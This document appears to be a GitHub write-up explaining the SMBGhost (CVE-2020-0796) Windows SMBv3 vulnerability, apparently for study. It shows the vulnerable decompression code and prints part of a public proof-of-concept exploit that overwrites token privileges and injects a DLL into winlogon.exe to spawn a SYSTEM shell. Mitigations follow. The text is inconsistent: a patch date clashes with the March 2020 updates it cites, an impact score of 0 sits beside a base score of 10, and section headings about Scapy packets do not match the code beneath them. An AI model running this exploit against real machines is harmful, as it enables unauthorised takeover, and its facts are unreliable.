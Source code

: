 # CVE-2020-0796


## Background
On March 12,2020, Microsoft confirmed that a critical vulnerability affecting the SMBv3 (Server Message Block 3.1.1) protocol associated with its latest version of Windows 10 and it has a case number: CVE-2020-0796. This is known as SMBGhosting in Windows 10 OS. 
-	date discovered: 2019-4-11 by Zecops Research Team
-	date patched: 2020-10-3 by Microsoft 

CVSSv3: 
-	base score: 10.0
-	Impact score: 0
-	Exploitability Score: 3.9
-	Severity: CRITICAL

Affected version: 
-	Windows 10 version (1903 and 1909)
-	Windows Server Version (1903 and 1909)


## Introduction
### What is SMB and what it does?
[Official defination](https://en.wikipedia.org/wiki/Server_Message_Block) In computer networking, Server Message Block, one version of which was also known as Common Internet File System (CFIS), is a communication protocol for providing shared access to files, printers and serial ports between nodes on a network. It also provides an authenticated inter-process communication (IPC) mechanism

This Protocol enables your devices to communciate with remote computers or servers. It basically lets you share files.

### What is SMBGhost and what it does? 
 This is a type of vulnerability that affects Windows 10 computers and was first reported publicly on 10 March, 2020. 
 
 This vulnerability allows the attacker to remotely execute the code on the SMB server or client. 



### who uses it and why would you want to use it
Users could be anyone among us. Here is a scenario, Imaging you are with your laptops, and using a printer connected to the company’s computer. When you request to print a document, your laptop uses the SMB protocol to send the print request to the company’s computer; while through the same protocol, your laptop will receive a response on whether the file is printed. 


### Real world impact
SMB version
-	SMBv1: released by IBM, Modified by Microsoft, (1990)
-	SMBv2: By Microsoft, Boosted performance
-	SMBv3: Increased Security

![download](https://user-images.githubusercontent.com/25041906/111921659-15191b00-8a6c-11eb-9c72-2afd91c12c3f.jpg)

The infamous WannaCry ransomware was an exploit of a vulnerability in SMB version one.
It infected hundreds of thousands of computers and encrypted their data. Users have to pay in Bitcoin to get their data back. 






## Vulnerability POC
The vulnerability exits because SMB does not handle the compressed network packets properly. In particular, the Srv2DecompressData function is called to decompress the packet, but it does not validate the original compressed size (originalCompressedSegmentSize + Offset) of the packet header. Therefore, a small amount of the additional memory for offset address is copied in the kernel memory. No surprisingly, the bug can be used to cause overflow to gain higher local privileges.
The below POC created by zecops research team illustrates how the bug can be exploited remotely without authentication by causing a blue screen of death.This is a simplified version of the function below



### Create a simple packet header 
Creating a network packet is one of the main features of Scapy. Initially, I will create a simplest header of a packet, which only contains source ip address and destination ip address.                                           
 
    typedef struct _COMPRESSION_TRANSFORM_HEADER
    {
      ULONG ProtocolId;
      ULONG OriginalCompressedSegmentSize;
      USHORT CompressionAlgorithm;
      USHORT Flags;
      ULONG Offset;
    } COMPRESSION_TRANSFORM_HEADER, *PCOMPRESSION_TRANSFORM_HEADER;
 

    typedef struct _ALLOCATION_HEADER 
    {
      // ...
      PVOID UserBuffer;
      // ...
    }  ALLOCATION_HEADER, *PALLOCATION_HEADER;
 
    NTSTATUS Srv2DecompressData(PCOMPRESSION_TRANSFORM_HEADER Header, SIZE_T TotalSize)
    {
         PALLOCATION_HEADER Alloc = SrvNetAllocateBuffer(
        (ULONG)(Header->OriginalCompressedSegmentSize + Header->Offset),
        NULL);
    If (!Alloc) {
        return STATUS_INSUFFICIENT_RESOURCES;
    }
    
    ULONG FinalCompressedSize = 0;
    NTSTATUS Status = SmbCompressionDecompress(
        Header->CompressionAlgorithm,
        (PUCHAR)Header + sizeof(COMPRESSION_TRANSFORM_HEADER) + Header->Offset,
        (ULONG)(TotalSize - sizeof(COMPRESSION_TRANSFORM_HEADER) - Header->Offset),
        (PUCHAR)Alloc->UserBuffer + Header->Offset,
        Header->OriginalCompressedSegmentSize,
        &FinalCompressedSize);
    if (Status < 0 || FinalCompressedSize != Header->OriginalCompressedSegmentSize) {
        SrvNetFreeBuffer(Alloc);
        return STATUS_BAD_DATA;
    }
 
    if (Header->Offset > 0) {
        memcpy(
            Alloc->UserBuffer,
            (PUCHAR)Header + sizeof(COMPRESSION_TRANSFORM_HEADER),
            Header->Offset);
    }
 
    Srv2ReplaceReceiveBuffer(some_session_handle, Alloc);
    return STATUS_SUCCESS;
}


By comparing line 20 (size + offet) and line 31 (size - offset), we can easily know that the buffer overflowed by executing this function. So If the offset is not zero, it triggers an additional integer overflow by three steps, allocate, decompress and copy. As a result, the memory allocation is shown in the picture below.

![overflow](https://user-images.githubusercontent.com/59459399/111933279-7f928100-8a95-11eb-8d37-50a8d892b201.png)



Whether or not the copy step is going to be executed, we already triggered the overflow since we changed the allocated size to be smaller than it actually needed. Thus, we are able to overflow any size of the content.
This could be a crucial vulnerability because we can use this to crash a specific windows system by an IP address.  The code below was created by ZECOPS research team, which customized a network packet header size and set up the offset in a token and exploit the vulnerability. The core part of the source code is shown as below.



### Send and receive packets (sr)
One of the most important segments in network is sending and receiving the packets. The sr() function is how we can implement them. The function will return both answered and unanswered packets. Below is a demonstration on how we use this function to send and receive a ICMP packets, as well as to decode the received the packets. 

>>> 
def exploit():
   """
   Exploits the bug to escalate privileges.
   Reminder:
   0: kd> dt nt!_SEP_TOKEN_PRIVILEGES
      +0x000 Present          : Uint8B
      +0x008 Enabled          : Uint8B
      +0x010 EnabledByDefault : Uint8B
   """
   token = get_token_address()
   if token is None: sys.exit(-1)

   what = b'\xFF' * 8 * 3
   where = token + 0x40

   print('[+] Writing full privileges on address %x' % (where))

   write_what_where('127.0.0.1', what, where)

   print('[+] All done! Spawning a privileged shell.')
   print('[+] Check your privileges: !token %x' % (token))

   dll_path = pathlib.Path(__file__).parent.absolute().joinpath('spawn_cmd.dll')
   subprocess.call(['Injector.exe', '--process-name', 'winlogon.exe', '--inject', dll_path], stdout=open(os.devnull, 'wb'))

And when the SMB decompressed the header, it will crash the windows system at the beginning by bule screen of death as below.
![blue screen of death](https://en.wikipedia.org/wiki/Blue_screen_of_death#/media/File:Bsodwindows10.png)

But if we keep trying the exploit several times, we can get the system/authority privilege.

![CVE-2020-0796-Privilege-Escalation-POC-original](https://user-images.githubusercontent.com/59459399/111933400-c7b1a380-8a95-11eb-9060-a7f851beeb16.gif)



[The whole stack buffer overflow source code refer to zecops research team] (https://github.com/ZecOps/CVE-2020-0796-LPE-POC)


### Mitigating SMB Ghosting Attacks
There are several entities and organizations at risk of this attack:
Small and large government entities, Large and small business entities, and home users.

#### There are 3 main methods of preventing SMB Ghosting Attacks
Method 1: Involves using the Windows Update program to install the new security updates or cumulative updates released in March 2020.
Method 2: Visiting the official Microsoft website to download the SMB Ghosting security patch which would be the service stack update KB4541338, cumulative update KB4551762.
Method 3: This is a workaround provided by Microsoft which is not a Recommended solution as it does not Prevent the Exploitation, It Just Disables the SMBv3 Compression.
Execute this command in PowerShell:
Command - Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" DisableCompression -Type DWORD -Value 1 -Force


### Conclusion 


### Resources
[ Security vuknerability ](https://en.wikipedia.org/wiki/SMBGhost_(security_vulnerability))
[ SMB protocol ](https://www.youtube.com/watch?v=csocwMe7l_E)
